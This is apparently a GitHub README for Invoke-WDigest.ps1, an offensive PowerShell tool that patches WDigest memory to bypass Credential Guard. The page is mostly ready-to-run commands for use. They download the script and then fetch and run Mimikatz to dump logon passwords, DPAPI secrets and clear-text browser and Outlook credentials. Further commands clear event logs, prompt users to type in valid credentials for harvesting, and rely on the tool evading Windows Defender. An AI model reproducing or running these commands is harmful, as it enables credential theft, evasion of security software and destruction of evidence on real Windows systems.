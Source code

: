 ## Invoke-WDigest.ps1

|Script Name|Description|Privileges|Credits|
|---|---|---|---|
|[Invoke-WDigest](https://github.com/r00t-3xp10it/redpill/blob/main/lib/DeviceGuard/Invoke-WDigest.ps1)|Credential Guard Bypass Via Patching Wdigest Memory|Administrator|@wh0nsq, @Benjamin_Delpy, @nirsoft|

<br /><br />

|Parameter|Description|Defaul value|
|---|---|---|
|WDigest|Activate WDigest credential caching in Memory?|<b><i>true</i></b>|
|ManyCats|Switch that downloads\executes Mimikatz to dump credentials |<b><i>[Switch]</i></b>|
|RunAs|Switch that prompts user for credential input and store it in memory|<b><i>[Switch]</i></b>|
|DcName|Switch of RunAs command that accepts USER@DOMAIN or DOMAIN\USER<br />Remark: this function requires <b><i>-RunAs</i></b> parameter switch declaration|<b><i>$Env:COMPUTERNAME\\$Env:USERNAME</i></b>|
|Module|Mimikatz selection of dump::modules to auto-run|<b><i>sekurlsa::wdigest exit</i></b>|
|BrowserCreds|Switch that dumps installed browers\outlook credentials [clear-text]|<b><i>[Switch]</i></b>|
|Banner|Print Invoke-WDigest cmdlet banner?|<b><i>true</i></b>|
|DebugMe|Switch that prints onscreen cmdlet error messages|<b><i>[Switch]</i></b>|

<br /><br />

<b><i>download Invoke-WDigest.ps1</i></b>
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/DeviceGuard/Invoke-WDigest.ps1" -OutFile "Invoke-WDigest.ps1"
```

<br />

<b><i>pre-requesites checks:</i></b>
> **Warning**: Invoke-WDigest.ps1 cmdlet only bypasses Anti-Virus detection if windows defender its the only AV running in target system.
```powershell
#Make sure Windows Defender service its running
[bool](Get-Service -Name "WinDefend")

#Make sure we have administrator privileges in shell
[bool](([System.Security.Principal.WindowsIdentity]::GetCurrent()).groups -Match "S-1-5-32-544")
```

<br /><br />

<b><i>cmdlet syntax examples:</i></b>
```powershell
# Cmdlet help
Get-Help .\Invoke-WDigest.ps1 -full

# Execute Mimikatz (interactive shell) without WDigest caching
.\Invoke-WDigest.ps1 -wdigest 'false' -manycats

#  Ativate WDigest caching + Execute Mimikatz 'sekurlsa::wdigest exit'
.\Invoke-WDigest.ps1 -wdigest 'true' -manycats

# Ativate WDigest caching + Execute Mimikatz 'net::group sekurlsa::wdigest sekurlsa::logonpasswords' multiple dump modules.
.\Invoke-WDigest.ps1 -wdigest 'true' -manycats -module 'net::group sekurlsa::wdigest sekurlsa::logonpasswords sekurlsa::dpapi'

# Execute Mimikatz (multiple dump::modules) without WDigest caching
.\Invoke-WDigest.ps1 -wdigest 'false' -manycats -module 'net::group sekurlsa::wdigest sekurlsa::dpapi event::clear exit'

#  Ativate WDigest caching + Exec Mimikatz pre-sellection of dump::modules
.\Invoke-WDigest.ps1 -wdigest 'true' -manycats -module 'auto'

# Dump browsers credentials without WDiget catching
.\Invoke-WDigest.ps1 -wdigest 'false' -browsercreds
```

<b><i>[WDIGEST MEMORY CATCHING - FAST DEMONSTRATION]</i></b>
```powershell
## WDigest caching + dump (-runas) created credential with mimikatz
.\Invoke-WDigest.ps1 -WDigest 'true' -manycats -runas

WORKFLOW
   - Invoke-WDigest.ps1 Ativates WDigest caching in memory
   - Invoke-WDigest.ps1 prompts user to enter credential to start cmd.exe
     - [Downside] -runas switch pauses cmdlet execution waiting for credential input.
   - WDigest will store (runas) credential input by user in clear-text in memory
     - [Downside] -runas command (wdigest) only stores 'valid' credentials in-memory.   
   - mimikatz will auto-execute 'mimikatz sekurlsa::wdigest exit' to dump credentials
```

<br /><br />

<b><i>Execute Mimikatz (interactive shell) without WDigest caching</i></b><br />
```powershell
.\Invoke-WDigest.ps1 -wdigest 'false' -manycats
```
![interactive](https://user-images.githubusercontent.com/23490060/219967042-4559b463-5e3e-470d-8ffe-5111eae7f015.png)

<br />

<b><i>WDigest caching + dump (-runas) created credential with mimikatz</i></b><br />
```powershell
.\Invoke-WDigest.ps1 -WDigest 'true' -manycats -runas
```
![POC2](https://user-images.githubusercontent.com/23490060/219876558-6f68d5cb-e0b7-4bd2-b6e1-689dd8f62792.png)

![POC3](https://user-images.githubusercontent.com/23490060/219876572-e28d1c22-b6a6-456c-a710-2af8e75f339b.png)

<br />

<b><i>Dump browsers credentials without WDiget catching</i></b><br />
```powershell
.\Invoke-WDigest.ps1 -wdigest 'false' -browsercreds
```
![brcreds](https://user-images.githubusercontent.com/23490060/221413695-a227e1c3-fa2d-43e0-9f50-44b0157a5af0.png)<br />
![outlook](https://user-images.githubusercontent.com/23490060/221729426-e7363d4b-fef1-4155-9383-06bbe1479f00.png)


<br />

> **Warning**: Invoke-WDigest.ps1 cmdlet only bypasses Anti-Virus detection if windows defender its the only AV running in target system.<br />
![kapersky](https://user-images.githubusercontent.com/23490060/221858219-efb0ca86-4222-47af-8827-7923c7f10656.png)


<br />

<b><i>Links</i></b>

- [Mimikatz modules list](https://tools.thehacker.recipes/mimikatz/modules)
- [Enumerate common security processes running](https://github.com/r00t-3xp10it/redpill/blob/main/bin/GetCounterMeasures.ps1)

